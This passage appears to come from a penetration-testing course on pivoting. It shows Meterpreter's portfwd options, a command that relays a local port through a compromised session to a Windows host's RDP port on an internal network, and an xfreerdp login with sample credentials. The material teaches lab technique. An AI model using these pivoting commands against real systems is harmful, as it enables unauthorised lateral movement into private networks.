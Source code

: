 ```bash

PORT     STATE SERVICE
3389/tcp open  ms-wbt-server

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.45 seconds
```

---

## Port Forwarding

Port forwarding can also be accomplished using Meterpreter's `portfwd` module. We can enable a listener on our attack host and request Meterpreter to forward all the packets received on this port via our Meterpreter session to a remote host on the 172.16.5.0/23 network.

#### Portfwd options

```bash
meterpreter > help portfwd

Usage: portfwd [-h] [add | delete | list | flush] [args]


OPTIONS:

    -h        Help banner.
    -i <opt>  Index of the port forward entry to interact with (see the "list" command).
    -l <opt>  Forward: local port to listen on. Reverse: local port to connect to.
    -L <opt>  Forward: local host to listen on (optional). Reverse: local host to connect to.
    -p <opt>  Forward: remote port to connect to. Reverse: remote port to listen on.
    -r <opt>  Forward: remote host to connect to.
    -R        Indicates a reverse port forward.
```
#### Creating Local TCP Relay

```bash
meterpreter > portfwd add -l 3300 -p 3389 -r 172.16.5.19

[*] Local TCP relay created: :3300 <-> 172.16.5.19:3389
```

The above command requests the Meterpreter session to start a listener on our attack host's local port (`-l`) `3300` and forward all the packets to the remote (`-r`) Windows server `172.16.5.19` on `3389` port (`-p`) via our Meterpreter session. Now, if we execute xfreerdp on our localhost:3300, we will be able to create a remote desktop session.
#### Connecting to Windows Target through localhost

```bash
xfreerdp /v:localhost:3300 /u:victor /p:pass@123
```
#### Netstat Output
